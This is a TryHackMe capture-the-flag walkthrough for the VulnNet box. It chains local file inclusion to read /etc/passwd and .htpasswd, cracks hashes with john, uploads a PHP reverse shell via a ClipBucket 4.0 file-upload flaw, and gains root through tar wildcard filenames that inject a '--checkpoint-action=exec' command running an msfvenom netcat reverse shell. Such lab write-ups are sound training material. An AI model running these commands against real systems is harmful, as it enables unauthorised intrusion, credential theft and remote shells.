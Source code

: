 ```yaml
---
title: "Try Hack Me - VulnNet Walkthrough"
date: 2022-07-26 12:00:00
catagories: [article,walkthrough]
tags: [THM, ctf, medium, linux, subdomains]
---
```


# Intro
This is the oldest of the VulnNet boxes on Try Hack Me. It is also rated as a medium difficulty box.

# Recon
First we will scan the host. I will use [autorecon](https://github.com/Tib3rius/AutoRecon) by [Tib3rius](https://twitter.com/0xTib3rius) to get things started.

If you have never used it before and would like some explaination, check out this post: [Using AutoRecon](https://knox.technology/posts/using_autorecon/)

VulnNet Home Page:
![](/assets/images/vn01-index.jpg)

## Setup /etc/hosts file
- Looking through the nmap scans we find a domain name: `vulnnet.thm`
![](/assets/images/vn01-domain_name.jpg)
This means we should update our `/etc/hosts` file on our local attack machine with a line that looks like:

`<xx.xx.xx.xx> vulnnet.thm`  Replace the xx.xx.xx.xx wit hthe ip the vulnnet machine is assigned.

- If we look at the dirbuster/feroxbuster results we find 2 .js files.
![](/assets/images/vn01-js-files.jpg)

Let's examine these files for more clues.

## Possible LFI Point
In one file we find a reference to: `http://vulnnet.thm/index.php?referer=`
If we try `http://vulnnet.thm/index.php?referer=/etc/passwd` the page just looks like normal, but if we view source on the page that is returned:
![](/assets/images/vn01-etc-passwd.jpg)

Looks like we have two 'real' users:
```bash
root:x:0:0:root:/root:/bin/bash
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
```

## New Subdomain
In the other .js file we find a reference to a subdomain: `broadcast.vulnnet.thm`
We should go back and add that to our line in `/etc/hosts` for VulnNet:

`<xx.xx.xx.xx> vulnnet.thm broadcast.vulnet.thm`  Replace the xx.xx.xx.xx wit hthe ip the vulnnet machine is assigned.

When we go to the site we see that it directs us to log in.
Using burp we verify it is "basic auth"
![](/assets/images/vn01-basic-auth.jpg)

Ok so now let's go back to our LFI - (Local File Inclusion) and check for `/etc/apache2/sites-enabled/000-default.conf`

![](/assets/images/vn01-burp-apache-conf.jpg)

Now lets see if we can view the .htpasswd file.
![](/assets/images/vn01-ba-creds.jpg)
We were able to retrieve a user hash. Let's crack it with `john`

So here is the command I used:
```bash
john --pot=cracked.pot --wordlist=/usr/share/wordlists/rockyou.txt hash
```
- I use the `--pot=<filename>.pot` so that `john` save any cracked passwords in that file, so I don't forget to save them myself!
- The `--wordlist` is the location ofthe wordlist you wish to use. Your `rockyou.txt` might live in a different place than mine.
- And `hash` is just the name of the file I saved the hash we found in.

# ClipBucket?
And now we login to Clip Bucket....what ever that is.
![](/assets/images/vn01-clipbucket.jpg)

Let's see if we can find out what version it is.

Let's view the page source:
![](/assets/images/vn01-cb-version.jpg)
And there it is: ClipBucket version 4.0

## Exploiting ClipBucket

Let's check searchsploit: `searchsploit clipbucket`
![](/assets/images/vn01-ss.jpg)

We can copy the exploit to our current location useing the `-m` (mirror) flag.
`searchsploit -m php/webapps/44250.txt`

Reading through the exploit 44250.txt, it seems to imply that there is a /actions directory on the ClipBucket app.
Let's check it out....
![](/assets/images/vn-01-cb-actions.jpg)

So it looks like if we use this command:

```bash
sudo curl -F "file=@thm-shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:<PASSWORD>
```
We should be able to upload a reverse shell.

DON'T foget to set up your listener! :)

After the file is uploaded check the actions directory and there is a new folder: `CB_BEATS_UPLOAD_DIR` the rev shell file will be in there.

![](/assets/images/vn01-rev-shell.jpg)

# Foothold
## www-data user
First upgrade shell: `python3 -c "import pty;pty.spawn('/bin/bash')"`

First run this to make sure your path and some others things are setup correctly in your shell:
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;export TERM=xterm-256color;alias ll='ls -lah --color=auto'
```

And I created a little one liner to get some quick info on the system.
```bash
echo '----------';which gcc;which cc;which python;which python3;which perl;echo '';which wget;which curl;which nc;echo '';whoami;id;echo '';file /bin/bash;echo '';uname -a;cat /etc/issue;cat /etc/*-release;echo '-----------'
```

Which gets you this:
![](/assets/images/vn01-system-info.jpg)

Next I will use `wget` to copy the `lse.sh` script over to look for privesc options.
[Here is the github repo for LSE](https://github.com/diego-treitos/linux-smart-enumeration)

We discover this file running LSE:

```bash
[!] fst190 Can we read any backup?......................................... yes!
---
-rw-rw-r-- 1 server-management server-management 1484 Jan 24  2021 /var/backups/ssh-backup.tar.gz
```

I wasn't able to extract the `tar` file on the machine, so since we have python3 I fired up a python3 http server with: `python3 -m http.server 8000` to copy the file over.

Extracting the backup file gives us an `id_rsa` file. But it is password protected.

Use `ssh2john id_rsa > id_rsa.hash`

and then use the `john` to crack the newly created hash.

DON'T forget to `chmod 400 id_rsa`

Now we can login through ssh with the `server-management` user.

## server-management user
From this account running LSE reveals a cron running a file we have write access to.
The script the cron runs is in `/var/opt/backupsrv.sh` Examining that file reveals that is making a backup out of all the files in `/home/server-management/Documents` using the "*" wildcard.

You can read about we can use this at [gtfobins](https://gtfobins.github.io/gtfobins/tar/) BTW that site should be on your speed dial!

There is also a great article about exploiting the wildcard [HERE](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

On your local machine: `msfvenom -p cmd/unix/reverse_netcat lhost=<local-ip> lport=<desired-port> R` to get your reverse shell.
Start your listener!

On the target machine navigate to `/home/server-management/Documents`
```bash
echo "YOUR REVERSE SHELL FROM MSFVENOM HERE" > shell.sh
chmod +x shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

And then wait for the cron to run. Your shell should pop up.

Go get that root flag!
